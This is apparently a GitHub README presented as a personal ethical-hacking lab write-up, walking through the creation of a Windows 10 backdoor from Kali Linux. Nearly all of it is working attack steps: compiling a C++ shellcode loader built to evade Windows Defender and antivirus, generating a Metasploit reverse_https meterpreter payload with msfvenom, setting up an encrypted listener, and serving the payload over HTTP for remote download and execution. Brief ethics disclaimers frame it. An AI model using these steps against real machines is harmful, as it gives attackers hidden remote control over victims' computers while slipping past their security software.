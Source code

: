# Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Please note that this text contains references to potentially sensitive activities and materials.
It is important to use ethical hacking techniques responsibly and within legal boundaries.

In this example, i will demonstrate the use of Kali Linux 2023.2 to create a Windows 10 backdoor for ethical hacking purposes.

The following tools were utilized:
   - OpenSSL: Used to create the certificate.
   - msfconsole: Employed to create the listener and receive communication from the Windows machine.
   - msfvenom: Utilized to create the payload file.
   - Python: Used to create the HTTP server for payload delivery.
   - C++: Employed to create the Windows .exe file (backdoor.cpp).

or the coding of backdoor.cpp in C++, I referenced and customized code developed by TheD1rkMtr to suit my objectives. 
The code can be found at https://github.com/TheD1rkMtr/Shellcode-Hide/tree/main.

To ensure the executable is not detected as a virus, I combined the file SimpleLoader.cpp, which is flagged by Windows Defender and antivirus software, with the FilelessShellcode.cpp. This approach allows for the download of the payload on a remote machine, preventing detection. Additionally, SSL encryption with a custom certificate was implemented to secure the communication of the backdoor and prevent data detection.

It is essential to approach ethical hacking responsibly, adhering to legal frameworks and guidelines.

If you have any further questions or need clarification, feel free to ask!


Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile backdoor.cpp

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listener

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload deliver (important to do this in the same folder the payload was created)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) "backDoorTest.exe"
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
